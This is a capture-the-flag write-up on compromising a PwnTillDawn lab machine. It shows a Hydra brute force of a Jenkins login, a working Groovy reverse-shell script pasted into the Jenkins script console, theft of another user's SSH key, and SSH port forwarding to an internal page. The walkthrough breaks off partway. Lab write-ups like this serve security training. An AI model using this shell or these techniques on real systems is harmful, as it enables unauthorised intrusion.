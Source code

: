 # 10.150.150.38 - PWNTILLDAWN WRITEUP

The following ports were found using rustscan

![](images/rustscan_results.png)

I served the ports to nmap and got found a http site

![](images/nmap_results.png)

It was a jekins login page, i tried the usual default login pairs but none worked.

![](images/jekins_failed_default.png)

After some digging I decided to use hydra to bruteforce it

![](images/hydra_command.png)

We got a hit :grin: !

![](images/hydra_success.png)

Inputed the details and we have a dashboard now.

![](images/jekins_dashboard.png)

Looked around and found a flag under the `people` tab

![](images/people.png)

Looked around a bit more and found out i could run scripts here. Found a walkthrough on how to get a shell using "Jekins Groovy Scirpt" here: `https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6`

I pasted the code into the groovy scripts input box 

```
String host="ip";
int port="port";
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```

Then started a netcat listener and ran the script

![alt text](images/shell.png)

Found another Flag

![alt text](images/flag70.png)

Ran Linpeas but no dice, looked around and found another user `juniordev`, the user has a `.ssh` folder but i cannot `-ls -la` the folder due to permission issues

![](images/junirdevlsla.png)

But funny enough I can `cat` out it's presumed contents:

![](images/cat.png)

Copy paste and ssh into junior dev and voila we are juniordev

![alt text](images/jdevterminal.png)

Ran `Linpeas` again, no dice :unamused:, tried some suggested exploits, nothing. Looked a bit close and found something

![](images/ports.png)

A port that didn't show up during recon ,looked into it a bit more with `pspy`

![image of pspy](images/pspy.png)

Used ssh local port forwarding to open the local page:`ssh -L 8080:127.0.0.1:8080 juniordev@10.150.150.38 -i id_rsa -fN` 
and the we have a page now.

It looks like a simple additiion page created in python.